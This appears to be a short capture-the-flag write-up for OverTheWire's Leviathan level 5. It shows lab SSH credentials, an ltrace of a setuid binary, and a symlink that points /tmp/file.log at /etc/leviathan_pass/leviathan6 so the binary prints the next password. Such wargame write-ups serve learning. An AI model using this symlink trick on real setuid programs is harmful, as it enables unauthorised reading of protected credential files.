 # Leviathan Level 5 

## 🧠 Goal  

Log into Leviathan 5 and find the password for Leviathan 6.  

---

## 🔐 Credentials  

- **Username:** `leviathan5`  
- **Host:** `leviathan.labs.overthewire.org`  
- **Port:** `2223` (SSH)  
- **Password:** `0dyxT7F4QD`  

---

## 🖥️ Commands Used  

```bash
# connect to leviathan5
ssh leviathan5@leviathan.labs.overthewire.org -p 2223

leviathan5@leviathan:~$ ls -l
total 16
-r-sr-x--- 1 leviathan6 leviathan5 15144 Aug 15 13:17 leviathan5
leviathan5@leviathan:~$ ltrace ./leviathan5
__libc_start_main(0x804910d, 1, 0xffffd464, 0 <unfinished ...>
fopen("/tmp/file.log", "r")                                             = 0
puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
)                                       = 26
exit(-1 <no return ...>
+++ exited (status 255) +++
leviathan5@leviathan:~$ ./leviathan5
Cannot find /tmp/file.log
# create a symbolic link : pointer to another file , doesn`t point to the data itself but to the path of the file (like shortcut)
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ls -l /tmp/file.log
lrwxrwxrwx 1 leviathan5 leviathan5 30 Sep 18 11:57 /tmp/file.log -> /etc/leviathan_pass/leviathan6
leviathan5@leviathan:~$ ./leviathan5
szo7HDB88w

```
___

## 💡 Theory
```bash
# create a symbolic link : pointer to another file , doesn`t point to the data itself but to the path of the file (like shortcut)
ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
```
___

## 📤 Output
```bash
szo7HDB88w
```
